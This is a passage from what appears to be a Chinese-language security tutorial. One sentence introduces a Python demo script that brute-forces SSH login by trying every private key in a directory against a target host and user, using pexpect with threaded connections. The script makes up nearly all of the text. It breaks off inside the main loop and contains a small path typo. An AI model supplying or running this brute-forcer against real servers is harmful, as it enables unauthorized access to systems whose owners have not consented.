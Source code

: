 由此可以进行暴力破解，在使用密钥登录 SSH 时，需要键入 `ssh user@host -i keyfile -o PasswordAuthentication=no` 格式的一条命令。DEMO 代码如下：

```python
import pexpect
import optparse
import os
import threading

max_connections = 5
connection_lock = threading.BoundedSemaphore(value=max_connections)
stop = False
fails = 0

def connect(user, host, key_file, release):
    global stop, fails
    try:
        perm_denied = "Permission denied"
        ssh_new_key = "Are you sure you want to continue"
        conn_closed = "Connection closed by remote host"

        opt = " -o PasswordAuthentication=no"
        conn_str = "ssh {}@{} -i {}{}".format(user, host, key_file, opt)
        child = pexpect.spawn(conn_str)
        ret = child.expect([pexpect.TIMEOUT, perm_denied, ssh_new_key, conn_closed, "$", "#", ])
        if ret == 2:
            print("[-] Adding Host to !/.ssh/known_hosts")
            child.sendline("yes")
            connect(user, host, key_file, False)
        elif ret == 3:
            print("[-] Connection Closed By Remote Host")
            fails += 1
        elif ret > 3:
            print("[+] Success. {}".format(key_file))
            stop = True
    finally:
        if release:
            connection_lock.release()

def main():
    parser = optparse.OptionParser("usage %prog -H <target_host> -u <user> -d <directory>")
    parser.add_option("-H", dest="target_host", type=str, help="specify target host")
    parser.add_option("-d", dest="pass_dir", type=str, help="specify directory with keys")
    parser.add_option("-u", dest="user", type=str, help="specify the user")

    options, args = parser.parse_args()
    target_host = options.target_host
    pass_dir = options.pass_dir
    user = options.user

    if target_host is None or pass_dir is None or user is None:
        print(parser.usage)
        exit(-1)

    for file_name in os.listdir(pass_dir):
        if stop:
            print("[*] Exiting: Key Found.")
            exit(0)
        if fails > 5:
            print("[!] Exiting: Too Many Connections Closed By Remote Host.")
            print("[!] Adjust number of simultaneous threads.")
            exit(0)
        connection_lock.acquire()

```